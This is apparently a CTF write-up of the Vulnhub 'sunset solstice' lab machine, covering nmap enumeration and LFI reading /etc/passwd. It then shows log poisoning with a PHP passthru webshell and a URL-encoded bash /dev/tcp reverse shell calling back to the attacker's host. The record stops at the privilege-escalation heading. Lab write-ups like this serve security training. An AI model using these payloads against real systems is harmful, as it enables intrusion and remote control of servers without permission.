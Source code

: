 ```yaml
---
title: Vulnhub - sunset solstice
description: My writeup on sunset solstice box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://i.pinimg.com/originals/54/1d/f7/541df746fb87996ad2ab1dfbea249cea.png)

Hi all, let's pwn this!

You can find the machine there > [sunset solstice](https://www.vulnhub.com/entry/sunset-solstice,499/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.9
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-01 14:09 EEST
Nmap scan report for solstice.zte.com.cn (192.168.1.9)
Host is up (0.00038s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp        Exim smtpd 4.92
| smtp-commands: solstice.zte.com.cn Hello 0xatom.zte.com.cn [192.168.1.16], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
2121/tcp  open  ftp         pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18 02:39 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.9:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy  Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http        PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp         FreeFloat ftpd 1.00
MAC Address: 08:00:27:86:82:E4 (Oracle VirtualBox virtual NIC)
Service Info: Host: SOLSTICE; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

After lot of enumeration, i found an entry point on port `8593` there we can see this page : 

![](https://i.imgur.com/8mkXJqb.png)

If we click on `Book List` button we can see this on URL : `/index.php?book=list`, i tried for LFI and bingo got it! 

```
$ curl http://192.168.1.9:8593/index.php\?book\=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
```

## Log poisoning - shell as www-data

Now i tried to read log files, and bingo we can read `/var/log/apache2/access.log` so now we can take a reverse shell! :D

Port `8593` runs on `PHP cli server`, so we cant send our payload on port `8593`. We will send it to port `80` because `/var/log/apache2/access.log` is apache log file.

```
$ nc $ip 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
HTTP/1.1 400 Bad Request
Date: Wed, 01 Jul 2020 11:32:45 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```

Let's test it now.

`http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=whoami`

In the end of the output we can see this : `www-data` , perfect now let's take a reverse shell i'll use this :

`bash -c 'bash -i >& /dev/tcp/$your_ip/5555 0>&1'` 

But first we have to URL encoded it & then send it.

```
$ curl "http://$ip:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.16%2F5555%200%3E%261%27"
```

We have shell!

```
$ nc -lvp 5555
listening on [any] 5555 ...
www-data@solstice:/var/tmp/webserver$ ^Z #ctrl + z
[1]+  Stopped                 nc -lvp 5555
$ stty -raw echo
$ fg
www-data@solstice:/var/tmp/webserver$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@solstice:/var/tmp/webserver$
```

## www-data -> root




